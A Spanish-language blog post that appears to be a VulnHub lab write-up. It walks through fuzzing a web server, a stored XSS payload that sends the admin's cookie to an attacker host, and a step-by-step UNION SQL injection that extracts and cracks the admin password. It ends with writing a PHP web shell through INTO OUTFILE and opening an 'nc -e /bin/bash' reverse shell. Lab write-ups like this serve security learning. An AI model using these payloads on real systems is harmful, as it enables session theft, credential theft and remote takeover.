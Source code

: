 ```yaml
---
layout: post
title: XSS and MySQL file - VulnHub
tags: [xss,sql]
subtitle: "XSS and MySQL file - VulnHub"
---
```


- [Puertos abiertos](#puertos-abiertos)
- [Servicio web (80)](#servicio-web-(-80-)-)
  * [Fuzzing](#fuzzing)
  * [XSS](#xss)
  * [SQL injection](#sql-injection)
    + [Cantidad de columnas](#cantidad-de-columnas)
    + [Obteniendo datos de MySQL](#obteniendo-datos-de-mysql)
    + [Enumerar Base de Datos](#enumerar-base-de-datos)
    + [Enumerar tablas](#enumerar-tablas)
    + [Enumerar columnas](#enumerar-columnas)
    + [Cantidad de registros](#cantidad-de-registros)
    + [Extraer registros](#extraer-registros)
    + [Escritura de archivo](#escritura-de-archivo)
    + [Shell Inverso (www-data)](#shell-inverso--www-data-)

----

## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
```

## Servicio web (80)

![web](../assets/imgs/xss_mysql/web.png)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -c -t 200 -fc 403
[...]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
all                     [Status: 200, Size: 644, Words: 177, Lines: 39]
cat                     [Status: 200, Size: 644, Words: 177, Lines: 39]
classes                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
footer                  [Status: 200, Size: 185, Words: 75, Lines: 16]
header                  [Status: 200, Size: 571, Words: 167, Lines: 34]
index                   [Status: 200, Size: 1297, Words: 304, Lines: 60]
index.php               [Status: 200, Size: 1297, Words: 304, Lines: 60]
post                    [Status: 200, Size: 786, Words: 200, Lines: 39]
                        [Status: 200, Size: 1297, Words: 304, Lines: 60]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

### XSS

Es una vulnerabilidad que permite a un atacante inyectar en un sitio web código malicioso del lado del cliente. Éste código es ejecurado por las vívtimas y permite a los atacantes eludir los controles de acceso y hacerse pasar por usuarios.

En etes caso nos encontramso ante un `XSS almacenado` o persistente, ya que a través de de esta vulnerabilidad, el script malicioso inyectado se almacena permanentemente dentro del servidor de las base de datos de la aplicación web.


**Payload:**

| argumento         | descripción                                                 |
|-------------------|-------------------------------------------------------------|
| document.write()  | escribe una cadena dentro del hilo de un `document` abierto |
| document.cookie() | obtiene las `cookies` asociadas con el documento            |
| <script\>         | insertar codigo javascript                                  |
| <img\>            | repersenta una imágen en el documento                       |
| src               | la url de la imágen                                         |

```
<script>document.write('<img src="http://192.168.0.107:8000/test.jpg?cookies='+document.cookie+'">')</script>
```

![xss](../assets/imgs/xss_mysql/xss.png)

Abrimos un servicio web con `python` para la captura de la cookie de `adminsitrador`.

![python](../assets/imgs/xss_mysql/python.png)

Cambiamos la cookie a traves del plugin `cookie manager` del navegador Firefox, tambien hat otras opciones como BurpSuite o en la opción `storage` de Firefox

![admin](../assets/imgs/xss_mysql/admin.png)

----

### SQL injection

Párametro vulnerable: `http://192.168.0.102/admin/edit.php?id=2%27`

![sql](../assets/imgs/xss_mysql/sql.png)

#### Cantidad de columnas

```
http://192.168.0.102/admin/edit.php?id=1 order by 1-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 2-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 3-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 4-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 5-- -		(!)
```

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,3,4-- -
```

![union](../assets/imgs/xss_mysql/union.png)

#### Obteniendo datos de MySQL

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,version(),database(),4-- -
```

![mysql](../assets/imgs/xss_mysql/mysql.png)

#### Enumerar Base de Datos

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.schemata-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 0,1-- -	(information_schema)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 1,1-- -	(blog)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 2,1-- -	(mysql)
```

#### Enumerar tablas

```
http://192.168.0.102/admin/edit.php?id=3 union select  1,2,count(*),4 FROM information_schema.tables WHERE table_schema="blog"-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 0,1-- -	(comments)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 1,1-- -	(posts)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 2,1-- -	(users)
```

#### Enumerar columnas

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.columns WHERE table_name="users" and table_schema="blog"-- -			(3)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 0,1-- -		(id)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 1,1-- -		(login)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 2,1-- -		(password)
```
#### Cantidad de registros

Visualizar la cantidad de registros de una tabla (en este caso lala tabla `users`de la DDBB `blog`).

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(id),4 from blog.users-- -
```

#### Extraer registros

Como sólo hay un registro omitiré las limitaciones

```
192.168.0.102/admin/edit.php?id=3 union select 1,2,concat(id,0x3a,login,0x3a,password), 4 from blog.users-- -
```

![administrator](../assets/imgs/xss_mysql/administrator.png)


Posteriormente crackeo el hash obteniendo la contraseña de usuario `admin`.

![hash](../assets/imgs/xss_mysql/hash.png)

```
admin ::8efe310f9ab3efeae8d410a8e0166eb2 :: P4ssw0rd
```

#### Escritura de archivo

Despues de hacer enumeraciones en los distintos directorios del sitio web descubrí que en la ruta del sistema `/var/www/css` tengo permisos de escritura

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,"<?php echo system($_REQUEST['cmd']); ?>",4 INTO OUTFILE '/var/www/css/test.php'-- -
```

Inyecto en la variable `cmd` un comando un de sistema para comprobar si se puede ejecutar

![www](../assets/imgs/xss_mysql/www.png)


#### Shell Inverso (www-data)

```
192.168.0.102/css/test.php?cmd=nc -e /bin/bash 192.168.0.107 4444
```

Pongo en escucha para capturar la shell.

![nc](../assets/imgs/xss_mysql/nc.png)




<!--![cron](../assets/imgs/xss_mysql/cron.png)-->

